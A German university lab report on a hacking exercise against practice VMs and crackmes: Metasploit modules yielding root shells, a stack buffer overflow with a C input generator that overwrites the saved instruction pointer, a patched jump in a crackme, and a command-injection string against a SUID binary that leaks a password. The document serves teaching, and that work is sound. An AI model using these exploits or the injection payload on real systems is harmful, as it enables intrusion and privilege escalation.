\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage[ngerman]{babel}
\usepackage[left=2cm]{geometry}


\author{Christoph Robbert 6577945, Peter Stilow 6500440}
\title{Protokoll 5}
\begin{document}
\maketitle
 
\section*{Aufgabe 1}

\subsection*{a)}
Unsere Vulnerabel VM hat die IP \texttt{192.168.122.235}. Ob ein Exploit bekannt ist, untersuchten wir mittels der CVE Datenbank \texttt{http://www.cvedetails.com/}. Falls ein Exploit bekannt ist setzten wir ein \texttt{x} in das Feld.
\begin{tabular}{|c|c|c|}
\hline 
Port & Dienst & Exploit bekannt \\ 
\hline 
21 & vfstpd 2.4 & x \\ 
\hline 
22 & ssh 4.7p1 & x \\ 
\hline 
23 & telnet &  \\ 
\hline 
25 & smtpd &  \\ 
\hline 
53 & bind & x \\ 
\hline 
80 & Apache httpd 2.2.8 & x \\ 
\hline 
111 & 2 RPC \#100000 &  \\ 
\hline 
139 & smbd 3.X & x \\ 
\hline 
445 & smbd 3.x & x \\ 
\hline 
512 & exec & \\
\hline
513 & login & \\
\hline
514 & shell & \\
\hline
1099 & java-rmi & \\
\hline
2121 & ProFTPD 1.3.1 & x \\
\hline
3306 & MySQL 5.0.51a-3ubuntu5 & x\\
\hline
5432 & PostgreSQL DB 8.3.0 &  x \\
\hline
5900 & VNC & \\
\hline
6000 & x11 & \\
\hline
6667 & inreal ircd & x\\
\hline
8009 & Apache Jserv Protocol v1.3 & \\
\hline
8180 & Apache Tomcat/Coyote JSP engine 1.1 & x\\
\hline
8180 & Apache Tomcat/Coyote JSP engine 1.1 & x\\
\hline

\end{tabular} 


\subsection*{b)}

Um uns die Benutzung des Metasploitframeworks zu vereinfachen, benutzten wir die GUI Armitage. In einem ersten Schritt benutzten wir die Funktion \texttt{Attacks $\rightarrow$ Hail Mary} aus, die automatisch aus Exploits aus einer lokalen Datenbank startet. Diese Funktion schaffte es mehre Shells zu öffnen. 
Die erste war eine Rootshell mittels des Exploits:
\begin{verbatim}
exploit/unix/irc/unreal_ircd_3281_backdoor
\end{verbatim}
eine Rootshell zu öffnen. Der Screenshot befindet sich in Abbildung \ref{ircd_root}.
%\begin{figure}
%
\includegraphics[scale=0.5]{figures/ircd_rootshell.png}
%\caption{Root shell via ircd}
%\label{ircd_root}
%\end{figure}

Die zweite Rootshell brachte der Exploit:
\begin{verbatim}
exploit/multi/misc/java_rmi_server
\end{verbatim}
Der Screenshot befindet sich in Abbildung \ref{java_rmi}.
%\begin{figure}
%
\includegraphics[scale=0.5]{figures/java_rmi.png}
%\caption{Root shell via java\_rmi}
%\label{java_rmi}
%\end{figure}

Der dritte Rootshell brachte der Exploit:
\begin{verbatim}
exploit/unix/ftp/vsftpd_234_backdoor
\end{verbatim}
Der Screenshot befindet in Abbildung \ref{vsftp_234}.
%\begin{figure}
%
\includegraphics[scale=0.5]{figures/vfstp.png}
%\caption{Root shell via vsftp}
%\label{vfstp_234}
%\end{figure}

Die vierte Backdoor brachte der Exploit:
\begin{verbatim}
exploit/multi/samba/usermap_script
\end{verbatim}
Der Screenshot befindet sich in Abbildung \ref{samba}.
%\begin{figure}
%
\includegraphics[scale=0.5]{figures/samba.png}
%\caption{Root shell via samba}
%\label{samba}
%\end{figure}

So long, lets say: All hail to Mary!

\section*{Aufgabe 2}

Die hier benutzte Rechnerarchitektur ist eine 64-Bit Architektur, auf der wir auch 64-Bit Binaries erzeugt und benutzt haben.

Wir deaktivierten zur Vorsicht die zufällige Platzierung der Prozesse im Speicher durch setzen einer 0 in /proc/sys/kernel/randomize\_va\_space.

\subsection*{a)}

Zum erzeugen des Programms benutzten wir folgenden Befehl:
\begin{verbatim}
gcc -o a a.c
\end{verbatim}

Hiermit bekamen wir das Programm a, bei dem wir einen Buffer-Overflow versuchten. Wir wissen aus dem Code, dass das Array \texttt{buf} 99 Zeichen lang ist, in das wir die Eingabe des Programms schreiben. Durch ausführen des Programms bekommen wir die folgende Ausgabe:
\begin{verbatim}
$ ./a
buf: ffffe7d0 cookie: ffffe83c
\end{verbatim}

Dies zeigt uns die Speicherpositionen des Arrays und der Variable \texttt{cookie}. Durch Subtraktion der Werte bekommen wir einen Offset von 108 (byte). Demzufolge müssen wir, um \texttt{cookie} zu überschreiben, 108 beliebige Zeichen und dann den Wert für \texttt{cookie} eingeben. \texttt{cookie} wird im Programm mit 0x67636264 verglichen, oder als Zeichen umgewandelt "`dbcg"'. Wir benutzten für unsere Eingabe also "`a\{108\}dbcg"'.

Daraus folgt also folgende Ein-/Ausgabe:
\begin{verbatim}
$ ./a
buf: ffffe7d0 cookie: ffffe83c
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadbcg
glückwunsch bernd!
\end{verbatim}

\subsection*{b)}

Diese Aufgabe sollte durch überschreiben des "`Saved Instruction Pointer"' erfüllt werden. Hier verwenden wir das selbe Prinzip, nur dass wir statt die \texttt{cookie} Variable zu überschreiben eben den Pointer überschreiben möchten. Dieser Pointer sollte sich weitere 32 Bit hinter \texttt{cookie} befinden.

Zunächst compilieren wir das Programm wieder, diesmal aber zur Sicherheit mit dem Parameter, um stack-protektoren nicht zu setzen:
\begin{verbatim}
gcc -o b b.c -fno-stack-protector
\end{verbatim}

Mit gdb schauen wir uns daraufhin das Ergebnis des Compilierens an:
\begin{verbatim}
$ gdb b
GNU gdb (GDB) 7.6.2
Copyright (C)
[...]
Hacking/Blatt5/b...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040058d <+0>:	push   %rbp
   0x000000000040058e <+1>:	mov    %rsp,%rbp
   0x0000000000400591 <+4>:	sub    $0x70,%rsp
   0x0000000000400595 <+8>:	lea    -0x4(%rbp),%rdx
   0x0000000000400599 <+12>:	lea    -0x70(%rbp),%rax
   0x000000000040059d <+16>:	mov    %rax,%rsi
   0x00000000004005a0 <+19>:	mov    $0x400664,%edi
   0x00000000004005a5 <+24>:	mov    $0x0,%eax
   0x00000000004005aa <+29>:	callq  0x400460 <printf@plt>
   0x00000000004005af <+34>:	lea    -0x70(%rbp),%rax
   0x00000000004005b3 <+38>:	mov    %rax,%rdi
   0x00000000004005b6 <+41>:	callq  0x400490 <gets@plt>
   0x00000000004005bb <+46>:	mov    -0x4(%rbp),%eax
   0x00000000004005be <+49>:	cmp    $0xa0d00,%eax
   0x00000000004005c3 <+54>:	jne    0x4005cf <main+66>
   0x00000000004005c5 <+56>:	mov    $0x40067c,%edi
   0x00000000004005ca <+61>:	callq  0x400450 <puts@plt>
   0x00000000004005cf <+66>:	leaveq 
   0x00000000004005d0 <+67>:	retq   
End of assembler dump.
\end{verbatim}

Aus diesen Daten kann man lesen, dass bei Adresse 0x4005be die if-Abfrage umgesetzt wurde. Diese möchten wir mit unserer Eingabe umgehen und direkt zum printf("...") springen. Wir müssen also die Sprungadresse ersetzen durch 0x4005c5. Da diese Adresse nicht zu tippende Zeichen enthält schreiben wir uns ein Eingabe-Programm "`inputGen.c"', welches wir dann zusammen mit dem Programm "`b"' aufrufen:
\begin{verbatim}
./inputGen | ./b
\end{verbatim}

Input Gen compilieren wir mit:
\begin{verbatim}
gcc -o inputGen inputGen.c
\end{verbatim}

\begin{verbatim}
inputGen.c
---------------------------------
#include <stdio.h>

int main() {
   unsigned int i;
   //fill the char buffer
   for(i = 0; i < 108; i++){
      printf("a");
   }
   //print the cookie variable
   printf("dbcg");
   //print some unneeded data as offset to the jump adress
   for(i = 0; i < 8; i++){
      printf("%c", 0);
   }
   //print the correct adress for the jump
   printf("%c%c%c%c", 0x4005c5 & 0xFF, (0x4005c5 & 0xFF00) >> 8,
            (0x4005c5 & 0xFF0000) >> 16, (0x4005c5 & 0xFF000000) >> 24);
   for(i = 0; i < 4; i++){
      printf("%c", 0);
   }

   return 0;
}
\end{verbatim}

Da wir wissen, dass hinter der \texttt{cookie} Variable zuerst der \texttt{saved frame pointer} im Speicher liegt und dahinter der \texttt{Saved Instruction Pointer} liegt, überspringen wir ersteren durch beliebige Eingabe. Da wir uns im 64Bit System befinden also 8*8Bit. Dahinter setzen wir die gdb entnommene Adresse 0x4005c5 als Sprungadresse (was den \texttt{Saved Instruction Pointer} auf die printf Funktion, statt die if-Abfrage setzt).

Jetzt führen wir das Programm aus und erhalten die entsprechende Ausgabe:
\begin{verbatim}
$ ./inputGen | ./b
buf: 5abf4970 cookie: 5abf49dc
glückwunsch bernd!
Speicherzugriffsfehler (Speicherabzug geschrieben)
\end{verbatim}

Der Speicherzugriffsfehler kommt von der weiteren Ausführung des Programms, da der Stack nicht mehr korrekte Daten besitzt bei weiteren Aufrufen.

\subsection*{c)}



\section*{Aufgabe 3}
\subsection*{a)}
Um diese Aufgabe zu lösen haben wir das Binary \texttt{break\_it} mittels der radare GUI Bokken disassembliert. Nach etwas Code studieren fiel uns auf, dass der String "Access Denied!" nach der Sprunganweisung 
\begin{verbatim}
test eax, eax
jnz loc.0040062c
\end{verbatim}  
steht. Da eax immer eax ist, wird dieser Sprung nie ausgeführt. Würde der Sprung ausgeführt werden gelangt man zu einem String der "Got it, move on" enthält. Wir wandelten die Sprunganweisung \texttt{jnz hex:750c}(jump non zero) in \texttt{jz hex:740c} um, damit dieser Sprung immer ausgeführt wird.
Nach dieser Änderung machte die Binary folgende Ausgabe:
\begin{verbatim}
Got it, move on!: dbv28%82hr!37v6!2
\end{verbatim}
Das Passwort für stage2 lautete also \texttt{dbv28\%82hr!37v6!2}

\subsection*{b)}
Ein \texttt{ls -lisah} zeigte, dass die sumgen Binary dem Benutzer stage3 gehört und da das SUID Bit gesetzt wird auch mit seinen Rechten ausgeführt wird.
\begin{verbatim}
# ls -lisah
[..]
 43322  12K -r-sr-sr-x 1 stage3 stage3  11K Jun 20  2013 sumgen
[..]
\end{verbatim}
Nachdem wir etwas mit der \texttt{sumgen} Binary experimentiert hatten und verschiedene Eingaben ausprobiert hatten, fanden wir heraus, dass die Eingabe mittels einer Pipe in das Programm \texttt{md5sum} geleitet wird.
Sumgen ruft also ungefähr folgende Kommandline auf:
\begin{verbatim}
echo -n 'EINGABE' | md5sum 
\end{verbatim}
Wir schafften es mittels der folgenden Eingabe eine Shell mit den Rechten von stage3 zu öffnen:
\begin{verbatim}
./sumgen md5 "';sh;echo -n'"
\end{verbatim}
Wir wechselten mittels 
\begin{verbatim}
cd ../stage3
\end{verbatim}
in das Homeverzeichnis von stage3 und fanden eine Datei mit dem Namen \texttt{pass.txt} die das Passwort \texttt{i76v!IRi\$vBi38} enthielt. Damit loggten wir uns dann via SSH auf den Benutzer stage3 ein.
Passwort für stage3 lautet also: \texttt{i76v!IRi\$vBi38}

\subsection*{c)}

\end{document}
